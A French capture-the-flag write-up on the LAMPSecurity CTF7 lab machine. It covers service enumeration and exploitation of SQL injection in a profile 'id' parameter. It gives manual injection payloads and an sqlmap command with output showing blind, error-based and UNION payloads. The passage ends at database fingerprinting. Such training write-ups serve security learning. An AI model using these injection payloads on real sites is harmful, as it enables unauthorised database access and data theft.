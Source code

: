 Il est possible de [se connecter à distance avec SSH](https://en.wikipedia.org/wiki/SSH_(Secure_Shell)) au serveur LAMPSecurity CTF7 (port 22), un serveur Web Apache 2.2.15 (ports 80 et 8080), un système de [partage de fichiers Samba](https://en.wikipedia.org/wiki/Samba_(software)) (ports 139 et 901) ainsi qu'un autre serveur Web exposé sur le port 10000 sont également installés sur la VM. Pour chacun de ces services, il est désormais temps de partir à la chasse aux vulnérabilités.

Le serveur Web semble a priori le plus alléchant pour commencer ; le site qu'il va falloir analyser de fond en comble est un site vitrine créé avec Bootstrap, qui fait la promotion de la _Mad Irish Hacking Academy_. Au menu : des formations en cybersécurité, une newsletter et une collection d'e-books gratuits ou payants à récupérer sur la plate-forme.

![Affichage de l'image CTF7_user_view.png](images/CTF7-user-view.png)

## Exploitation d'une injection SQL sur le paramètre id

Après s'être créé un compte sur la plate-forme, et après quelques tests, on s'aperçoit rapidement que l'URL ```http://192.168.56.103/profile&id=114``` renvoie un formulaire correspondant au profil créé ; tandis que ```http://192.168.56.103/profile&id=114s``` renvoie l'erreur SQL _Invalid query: Unknown column '114s' in 'where clause' Whole query: select * from users where user_id = 114s_ ou encore si ```id``` équivaut à ```114 OR '1'='1'#``` on obtient le profil d'un certain Brian Hershel. Tout cela signifie très probablement qu'il y a au moins une injection SQL d'exploitable sur la plate-forme.

Afin d'éviter de longs tests manuels fastidieux, pour trouver la bonne syntaxe permettant d'exfiltrer les données de la base MySQL, __SQLMap__ vient à la rescousse. Il s'agit [d'un outil open source permettant d'identifier et d'exploiter une injection SQL](https://connect.ed-diamond.com/MISC/MISC-062/Utilisation-avancee-de-sqlmap) sur des applications Web. En lui spécifiant l'URL du site Web ainsi que les paramètres à tester, SQLMap va tester différentes techniques afin d'identifier la présence d'une injection SQL...

```console
root@blinils:~# sqlmap -u "http://192.168.56.103/profile&id=114"
--snip--
[18:18:18] [INFO] heuristic (basic) test shows that URI parameter '#1*' might be injectable (possible DBMS: 'MySQL')
[18:18:18] [INFO] heuristic (XSS) test shows that URI parameter '#1*' might be vulnerable to cross-site scripting (XSS) attacks
--snip--
[19:19:19] [INFO] URI parameter '#1*' appears to be 'Boolean-based blind - Parameter replace (original value)' injectable (with --string="test@test.test")
--snip--
[20:20:20] [INFO] URI parameter '#1*' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
--snip--
[21:21:21] [INFO] target URL appears to have 7 columns in query
[21:21:21] [INFO] target URL appears to be UNION injectable with 7 columns
[21:21:21] [INFO] URI parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
--snip--
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: http://192.168.56.103:80/profile&id=(SELECT (CASE WHEN (4117=4117) THEN 114 ELSE (SELECT 3378 UNION SELECT 4510) END))

--snip--
[22:22:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 6.8
web application technology: PHP 5.3.3, Apache 2.2.15
back-end DBMS: MySQL >= 5.0
```
